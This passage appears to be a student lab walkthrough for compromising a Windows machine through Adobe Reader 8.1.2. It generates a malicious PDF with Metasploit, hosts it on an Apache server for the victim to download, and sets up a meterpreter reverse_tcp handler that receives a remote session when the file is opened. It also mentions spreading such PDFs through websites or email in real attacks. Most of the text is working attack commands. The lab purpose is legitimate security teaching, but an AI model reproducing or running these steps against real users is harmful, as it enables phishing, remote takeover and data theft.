 We can view our options again before we enter “exploit” command to generate the payload together with PDF. 
```
# Then we can show the info or options by
show info | show options

exploit
```

Once we done generated the PDF file, we will move the file to /var/www/html which is the directory of our Kali machine’s to host the web application server for our victim to download the PDF file later.
- **`Note:`** 
  - *If you have set a different filename, make sure you copy the right path instead!*  
```
sudo mv /home/kali/.msf4/local/Bawang_Ranger_WIC3004Report.pdf /var/www/html
```

Then, to set up our listener, we will make use of "exploit/multi/handler". Again, we will set the payload, LHOST, LPORT aligned with what we have defined in generating the malicious PDF file. Then we will run the payload.
- **`Note:`** 
  - *LHOST: Please note for your own Kali machine's IP address*
  - *LPORT: If you have set a different port number, make sure you type in the number correctly* 
  - `show info` or `show options` is optional command to run.
     - Run it is just for verifying what you have set just now
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.0.2.4
set LPORT 5665
[show info | show options]
run
```

In another terminal, we check the status of the Apache server to ensure it is running to host our PDF file in /var/www/html for the victim to download the file.
```
service apache2 status

# If it is inactive, start the service
service apache2 start
```
---
On the Windows machine, open any browser such as Chrome browser and type in our Kali's IP (10.0.2.4)* to access the web application server of the Kali machine.

**`*Note:`** *Please note for your own Kali machine's IP address*

Then, mimic an user save the intended PDF file.

Once the file is opened by victim in Adobe Reader 8.1.2 with accepting to the prompt security messages, we then can observe on our Kali machine that we have a new session connected via reverse TCP connection.

**In real word scenario,** we will set up a website with the embedded-payload PDF to let victim download or attach the file via email.

---

[//]: # (https://shields.io/badge/Chan-%20Jia%20Liang-green?style=for-the-badge&logo=CodeIgniter&logoColor=orange)
[//]: # (https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white)